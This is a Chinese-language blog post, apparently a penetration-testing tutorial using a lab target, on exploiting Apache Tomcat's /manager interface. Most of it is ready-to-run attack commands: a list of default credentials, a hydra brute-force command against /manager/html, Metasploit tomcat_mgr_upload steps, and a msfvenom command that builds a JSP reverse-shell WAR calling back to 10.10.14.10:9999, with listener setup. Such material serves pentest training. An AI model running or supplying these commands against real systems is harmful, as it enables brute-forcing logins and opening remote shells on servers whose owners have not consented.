 ```yaml
---
title: Apache Tomcat 漏洞利用
date: 2021/12/12
tags: [渗透测试,漏洞利用]
categories: 渗透测试
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_16.jpg
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_16.jpg
---
```




# Apache Tomcat 漏洞利用

---

[参考链接1](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)

[参考链接2](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

**通过对apache tomcat的枚举和利用，我们可以从中找出漏洞，然后得到shell**

- 在这里列举出两种情况，第一种情况是哦我们能够访问到/manager目录，第二种情况是我们不能访问到该目录

## 枚举

- 在 Tomcat6 之前的某些版本中，我们可以使用msf枚举用户：

```
msf> use auxiliary/scanner/http/tomcat_enum
```

- 常见的得到的用户名与密码是：

    - admin:admin

    - tomcat:tomcat

    - admin:<NOTHING>

    - admin:s3cr3t

    - tomcat:s3cr3t

    - admin:tomcat

- 当然，我们也可以使用hydra进行暴力破解

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

- 得到了用户名与密码后，我们就可以登录到 /manager/html下传输反向shell

## RCE

- 我们可以使用msf，当然有时候这个并不起效果

```
use exploit/multi/http/tomcat_mgr_upload
show options
set RHOSTS 
set RPORT 8080
set HttpPassword 
set HttpUsername 
set LHOST 
exploit
```

- 当我们使用msf没有用时，我们可以自己制造一个shell传输到网页上
- 创建一个msfvenom payload

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=9999 -f war -o rshell.war
```

- 使用msf的监听模块进行监听（这有时候会收不到反弹回来的shell），或者使用nc监听端口

```
use exploit/multi/handler
show options
set payload java/jsp_shell_reverse_tcp
set LHOST 10.10.14.10
set LPORT 9999
exploit
```

- 完成这些后，我们将shell文件传输到web上，如果我们不能访问/manager/，那么就无法进行下一步
- 点击上传的文件在web中的地址，如果监听器没能收到shell，我们可以解压缩之前使用msfvenom创建的 .war 文件，将里面的  .jsp 文件上传，并且访问其网络链接

[点击该链接，说的很全面，但是要按情况选择](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat)

